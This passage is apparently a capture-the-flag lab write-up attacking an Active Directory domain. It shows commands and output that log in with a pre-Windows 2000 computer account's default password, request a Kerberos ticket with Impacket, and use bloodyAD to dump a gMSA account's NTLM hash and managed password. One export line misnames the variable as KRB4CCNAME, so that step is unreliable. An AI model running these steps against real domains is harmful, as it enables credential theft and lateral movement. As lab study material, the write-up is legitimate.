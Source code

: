 According to this article: [Pre-Windows 2000 Computers](https://www.thehacker.recipes/ad/movement/builtins/pre-windows-2000-computers) 
```txt title:Theory
When a new computer account is configured as "pre-Windows 2000 computer", its password is set based on its name (i.e. lowercase computer name without the trailing $). When it isn't, the password is randomly generated.

Once an authentication occurs for a pre-Windows 2000 computer, according to TrustedSec's blogpost, its password will usually need to be changed.
```
Therefore we have the credentials: `FS01$`:`fs01` most services aren't supported:
```console title:SMB
# nxc smb 10.10.11.45 -u 'FS01$' -p 'fs01'
SMB         10.10.11.45     445    10.10.11.45      [*]  x64 (name:10.10.11.45) (domain:10.10.11.45) (signing:True) (SMBv1:False)
SMB         10.10.11.45     445    10.10.11.45      [-] 10.10.11.45\FS01$:fs01 STATUS_NOT_SUPPORTED
```
However we can attempt to authenticate to `Kerberos` by requesting a `TGT`:
```console title:getTGT.py
# getTGT.py -dc-ip "dc01.vintage.htb" "vintage.htb"/"FS01$":"fs01"
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Saving ticket in FS01$.ccache
```
ensuring that each `ccache` file we gather is the new `KRB5CCNAME`:
```console
# export KRB4CCNAME='FS01$.ccache'
```
`FS01$` can read `GMSA01`'s GMSA password:
![Bloodhoun Data - Machine FS01 can read Machine GMSA01 Password](/assets/img/img_vintage/Pasted%20image%2020250130154212.png)
We can abuse this by using 
```console
# bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k get object 'GMSA01$' --attr msDS-ManagedPassword


distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:7dc430b95e17ed6f817f69366f35be06
msDS-ManagedPassword.B64ENCODED: sfyyjet8CbAO5HFzqbtcCtYlqyYohprMvCgeztWhv4z/WOQOS1zcslIn9C3K/ucxzjDGRgHJS/1a54nxI0DxzlhZElfBxQL2z0KpRCrUNdKbdHXU/kzFj/i38JFgOWrx2FMIGKrEEIohO3b2fA/U/vlPxw65M+kY2krLxl5tfD1Un1kMCByA1AI4VuR5zxXSfpnzFIxKlo1PKBJUxttMqbRM21I5/aLQnaIDCnr3WaqfU6lLwdGWxoz6XSD3UiqLaW5iDPYYR47kJpnflJgS0TBUBkvd2JiLiOb5CXF1gBgUsbVLtBo/OWW/+lrvEpBtS7QIUFsOKMIaNsKFGtTkWQ==
```